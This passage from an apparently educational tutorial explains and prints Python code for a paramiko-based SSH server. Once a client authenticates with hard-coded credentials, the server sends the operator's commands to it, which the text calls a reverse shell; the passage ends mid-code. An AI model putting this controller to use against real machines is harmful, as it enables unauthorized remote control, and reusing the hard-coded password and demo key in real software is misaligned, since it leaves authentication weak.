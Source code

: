
As a note, this script is based in some of the [paramiko demos](https://github.com/paramiko/paramiko/blob/master/demo) and we specifically use the key from their demo files ([download here](https://github.com/paramiko/paramiko/blob/master/demos/test_rsa.key)).


### The SSH Server

In our server script, we first  create a class **Server** that issues a new thread event, checking whether the session is valid, and performing authentication. Notice that for simplicity we are hard-coding the values for username, password and host key, which is never a good practice:

```python
HOST_KEY = paramiko.RSAKey(filename='test_rsa.key')
USERNAME = 'buffy'
PASSWORD = 'killvampires'

class Server(paramiko.ServerInterface):
    def __init__(self):
        self.event = threading.Event()
    def check_channel_request(self, kind, chanid):
        if kind == 'session':
            return paramiko.OPEN_SUCCEEDED
        return paramiko.OPEN_FAILED_ADMINISTRATIVELY_PROHIBITED
    def check_auth_password(self, username, password):
        if (username == USERNAME) and (password == PASSWORD):
            return paramiko.AUTH_SUCCESSFUL
        return paramiko.AUTH_FAILED
```

Now, let's take a look at the **main** function, which does the following:

1. Creates a socket object to bind the host and port, so it can listen for incoming connections.
2. Once a connection is established (the client tried to connect to the server and the socket accepted the connection), it creates a **paramiko** [Transport](http://docs.paramiko.org/en/1.15/api/transport.html) object for this socket. In paramiko there are two main communication methods: *Transport*, which makes and maintains the encrypted connection, and *Channel*, which is like a socket for sending/receiving data over the encrypted session (the other three are Client, Message, and Packetizer).
3. The program instantiates a **Server** object and starts the paramiko session with it.
4. Authentication is attempted. If it is successful, we get a **ClientConnected** message.
5. The server starts a loop where it will keep getting  input commands from the user and issuing it in the client. This is our reversed  shell!

```python
import paramiko
import getopt
import threading
import sys
import socket

def main():
    if not len(sys.argv[1:]):
        print "Usage: ssh_server.py <SERVER>  <PORT>"
        sys.exit(0)

    # creating a socket object
    server = sys.argv[1]
    ssh_port = int(sys.argv[2])
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        sock.bind((server, ssh_port))
        sock.listen(100)
        print "[+] Listening for connection ..."
        client, addr = sock.accept()
    except Exception, e:
```